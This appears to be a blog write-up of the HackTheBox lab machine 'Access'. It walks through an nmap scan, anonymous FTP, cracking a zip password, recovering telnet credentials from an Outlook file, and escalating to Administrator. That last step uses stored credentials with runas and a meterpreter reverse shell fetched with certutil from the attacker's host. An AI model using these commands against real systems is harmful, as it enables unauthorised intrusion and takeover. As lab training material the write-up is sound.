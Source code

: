 ```yaml
---
layout: post
title: Access writeup  (HackTheBox)
---
```



# Information Gathering
I started with an `nmap` scan.
```
nmap -sC -sV -oA nmap/access -v 10.10.10.98
```
3 ports came out of the scan:
```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: PASV failed: 425 Cannot open data connection.
| ftp-syst: 
|_  SYST: Windows_NT
23/tcp open  telnet?
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: MegaCorp
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

anonymous login is allowed on the FTP, so I checked that first.
There were two directories, `Backups` and `Engineer`. I first checked `Backups` because it sounds interesting. It contained a file called `backups.mdb`, which was a Microsoft Access Database. Then I checked the `Engineer` directory, which contained a file called `Access Control.zip`, so I downloaded it. I tried unzipping `Access Control.zip` but it required a password. So I took a look at `backup.mdb` using `strings` to see if I could find a password. After some time I found the string `access4u@security` which looked like it would work as a password. I unzipped the file using 7z.
```
7z e -paccess4u@security Access\ Control.zip
```
and got the file `Access\ Control.pst`, which was a Microsoft Outlook file. 
After opening the file with Outlook I could read an email.
```
Hi there,

The password for the “security” account has been changed to 4Cc3ssC0ntr0ller.  Please ensure this is passed on to your engineers.

Regards,
John
```
This gave me credentials for a service...

# Getting a shell
I tried `telnet`ing to the box. And got a login prompt, I filled it the credentials I gained from the email.
```
telnet 10.10.10.98
Trying 10.10.10.98...
Connected to 10.10.10.98.
Escape character is '^]'.
Welcome to Microsoft Telnet Service

login: security
password: 

*===============================================================
Microsoft Telnet Server.
*===============================================================
C:\Users\security>
```
I went to the `Desktop` folder to get `user.txt`.
```
C:\Users\security>cd Desktop

C:\Users\security\Desktop>type user.txt
ff1f3b(snip)
```

# Privilege Escalation
I first tried to use PowerUp from github, but it didn't have any results.
Then I checked if there were stored credentials on the box, which appeared to be the case.
```
C:\Users\security>cmdkey /list

Currently stored credentials:

    Target: Domain:interactive=ACCESS\Administrator
                                                       Type: Domain Password
    User: ACCESS\Administrator
```
This meant that I could do `runas` as `Administrator`
I created a reverse shell payload using `msfpc`. 
```
msfpc windows 10.10.13.66 1337 msf reverse
```
I set up a listener using the created `.rc` file, and renamed the shell to `shell.exe`.
I downloaded the shell file to `C:\Users\security\AppData\Local\Temp\` using `certutil`
```
certutil -urlcache -split -f http://10.10.13.66:8000/shell.exe
```
Once downloaded I used `runas` to run the shell.
```
runas /savecred /user:Administrator shell.exe
```
I got a connection with the machine.
```
msf exploit(multi/handler) > sessions -i 1 
[*] Starting interaction with 1...

meterpreter > cd /Users/Administrator/Desktop
meterpreter > ls
Listing: C:\Users\Administrator\Desktop
=======================================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100666/rw-rw-rw-  282   fil   2018-08-21 22:55:15 +0100  desktop.ini
100666/rw-rw-rw-  32    fil   2018-08-21 23:07:29 +0100  root.txt

meterpreter > cat root.txt
6e1586(snip)
```

